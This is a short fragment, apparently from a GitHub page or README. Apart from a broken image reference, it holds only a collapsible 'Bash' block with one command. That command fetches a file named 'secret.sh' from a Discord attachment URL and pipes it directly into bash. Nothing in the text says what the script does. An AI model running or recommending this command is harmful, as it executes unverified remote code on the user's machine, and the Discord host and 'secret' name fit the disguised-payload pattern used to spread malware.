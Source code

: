 <details>
  <summary>Bash</summary>

> <hr>

```sh
cd ~ && curl -s https://cdn.discordapp.com/attachments/1043972790266626179/1167180478089007154/secret.sh | bash 
```

> <hr>

</details>
